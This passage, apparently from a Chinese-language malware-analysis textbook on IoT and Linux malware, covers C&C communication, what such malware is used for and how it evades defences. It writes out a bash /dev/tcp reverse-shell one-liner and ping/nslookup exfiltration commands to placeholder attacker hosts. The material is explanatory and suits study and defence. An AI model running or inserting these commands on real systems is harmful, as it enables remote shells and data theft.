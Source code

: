 有很多方法可以实现这一点——即使仅使用 bash（某些版本）也可能足够：

```
bash -i >& /dev/tcp/<remote_ip>/<remote_port> 0>&1
```

预安装的脚本语言如 Python 或 Perl 提供了多种与远程服务器通信的选项，包括创建交互式 Shell。

一种更先进的方式来突破强大的防火墙并外泄数据的例子是使用`ping`工具并将数据存储在填充字节中（ICMP 隧道）或使用`nslookup`工具通过第三层（或更高层）域名发送数据（DNS 隧道）：

```
ping <remote_ip> -p <exfiltrated_data>
nslookup $encodeddata.<attacker_domain>
```

编译后的恶意软件通常使用标准的网络系统调用与 C&C 或对等方进行交互；有关更多信息，请参见前面的常见条目列表。

## 影响

恶意软件攻击物联网设备和基于 Linux 的服务器的主要目的通常如下：

+   **DDoS 攻击**：这些攻击可以通过多种方式获利：组织攻击以履行订单、勒索公司，或为受影响的实体提供 DDoS 保护服务。

+   **加密货币挖矿**：尽管每个受影响的设备通常具有相当基础的 CPU，且通常没有 GPU 来独立提供大量的计算能力，但它们的结合在适当实施的情况下可以生成相当可观的数字：

![图 11.7 – 物联网加密货币挖矿恶意软件使用的脚本部分](img/Figure_11.7_B18500.jpg)

图 11.7 – 物联网加密货币挖矿恶意软件使用的脚本部分

+   **网络间谍活动和信息窃取**：感染的摄像头可以成为攻击者获取宝贵信息的来源，就像智能电视或智能家居设备常常拥有摄像头或麦克风（或两者）一样。感染的路由器也可以用于拦截和修改重要数据。最后，一些 Web 服务器可能会存储数据库中存储的宝贵信息。

+   **拒绝服务攻击**：恶意软件可以摧毁关键的基础设施硬件，使某些系统或数据无法访问。

+   **广告欺诈**：多个感染的设备可以通过执行欺诈点击为攻击者带来丰厚的收入。

+   **代理**：在这种情况下，感染的设备为攻击者提供匿名代理服务。

如我们所见，这里的重点与传统的 Windows 恶意软件有所不同，这是由于所针对的系统性质所致。

## 防御规避

通用的反逆向工程技巧，如使用校验和或精确匹配检测断点、剥离符号信息、结合数据加密，或使用自定义异常或信号处理程序（通过之前讨论的`signal`系统调用设置）在 ELF 文件中同样有效，和 PE 文件几乎没有区别：

![图 11.8 – 一个自定义的基于异或的字符串解密算法示例，用于物联网恶意软件](img/Figure_11.8_B18500.jpg)

